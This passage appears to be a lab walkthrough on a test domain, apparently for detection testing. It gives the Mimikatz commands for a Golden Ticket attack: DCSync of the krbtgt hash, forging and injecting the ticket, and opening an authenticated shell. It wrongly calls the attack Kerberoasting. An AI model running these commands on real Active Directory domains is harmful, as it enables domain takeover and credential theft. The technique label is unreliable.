 **📌 Prerequisites:**

To perform a Kerberoasting attack, you need:
* /domain : the domain name of the target system (e.g., **wazuhtest.com**).
* /sid : the domain SID of the target system (e.g., **S-1-5-21-1234567890-1234567890-1234567890**).
* /rc4 : the NTLM hash of the krbtgt account (e.g., **D4C74594D841139D0F3C6A1A8E2B4B7F**).
* user: The username for which Mimikatz will issue the ticket (Windows 2019 blocks tickets if they are for inexistent users.)
* /id :  Relative ID (last part of SID ) for the user for whom Mimikatz will issue the ticket


**⚙️ Steps:**

1. **Create the Golden Ticket:**

```powershell
lsadump::dcsync /domain:wazuhtest.com /user:krbtgt
kerberos::golden /user:attacker /domain:wazuhtest.com /sid:<SID> /krbtgt:<HASH> /ptt
```

* Replace `<SID>` with the domain's **Security Identifier (SID)**.
* Replace `<HASH>` with the **KRBTGT** NTLM hash.

![Golden Ticket Creation](/assets/image-6.png)

2. **Validate the Ticket:**

```powershell
mimikatz # misc::cmd
```

* This command opens a command prompt session authenticated with the forged Kerberos ticket.

![Golden Ticket Authenticated Session](/assets/image-7.png)

3. **Verify the Loaded Ticket:**

```powershell
klist
```
